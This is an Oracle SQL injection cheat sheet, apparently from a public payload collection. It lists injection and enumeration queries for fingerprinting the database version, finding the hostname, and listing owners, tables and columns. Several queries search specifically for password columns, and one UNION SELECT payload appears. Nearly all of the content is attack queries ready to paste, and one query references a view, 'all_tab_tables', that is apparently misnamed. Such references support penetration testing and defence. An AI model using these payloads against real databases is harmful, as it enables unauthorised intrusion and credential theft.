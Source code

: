 # Oracle SQL Injection

## Summary

* [Oracle SQL comment](#oracle-sql-comment)
* [Oracle SQL version](#oracle-sql-version)
* [Oracle SQL database name](#oracle-sql-database-name)
* [Oracle SQL List databases](#oracle-sql-list-databases)
* [Oracle SQL List columns](#oracle-sql-list-columns)
* [Oracle SQL List tables](#oracle-sql-list-tables)


## Oracle SQL comment

```sql

--  	SQL comment

```

## Oracle SQL version

```sql
SELECT user FROM dual UNION SELECT * FROM v$version
SELECT banner FROM v$version WHERE banner LIKE 'Oracle%';
SELECT banner FROM v$version WHERE banner LIKE 'TNS%';
SELECT version FROM v$instance;
------------------------------------------------------
Notes:
All SELECT statements in Oracle must contain a table.
dual is a dummy table which can be used for testing.
```

## Oracle SQL database name

```sql
SELECT global_name FROM global_name;
SELECT name FROM V$DATABASE;
SELECT instance_name FROM V$INSTANCE;
SELECT SYS.DATABASE_NAME FROM DUAL;
------------------------------------------------------
Current Database
SELECT name FROM v$database;
SELECT instance_name FROM v$instance
SELECT global_name FROM global_name
SELECT SYS.DATABASE_NAME FROM DUAL
------------------------------------------------------
User Databases
SELECT DISTINCT owner FROM all_tables;
------------------------------------------------------
Server Hostname
SELECT host_name FROM v$instance; (Privileged)
SELECT UTL_INADDR.get_host_name FROM dual;
SELECT UTL_INADDR.get_host_address FROM dual;
```

## Oracle SQL List Databases

```sql
SELECT DISTINCT owner FROM all_tables;
------------------------------------------------------
Default Databases
SYSTEM	Available in all versions
SYSAUX	Available in all versions

```

## Oracle SQL List Columns

```sql
SELECT column_name FROM all_tab_columns WHERE table_name = '';
SELECT column_name FROM all_tab_columns WHERE table_name = '' and owner = '';
------------------------------------------------------
Retrieving Columns
SELECT column_name FROM all_tab_columns;
SELECT table_name FROM all_tab_tables WHERE column_name = 'password';

```

## Oracle SQL List Tables

```sql
SELECT table_name FROM all_tables;
SELECT owner, table_name FROM all_tables;
SELECT owner, table_name FROM all_tab_columns WHERE column_name LIKE '%PASS%';
------------------------------------------------------
Find Tables from Column Name
SELECT column_name FROM all_tab_columns WHERE table_name = 'Users';
------------------------------------------------------
Retrieving Multiple Tables at once
SELECT RTRIM(XMLAGG(XMLELEMENT(e, table_name || ',')).EXTRACT('//text()').EXTRACT('//text()') ,',') FROM all_tables;

```

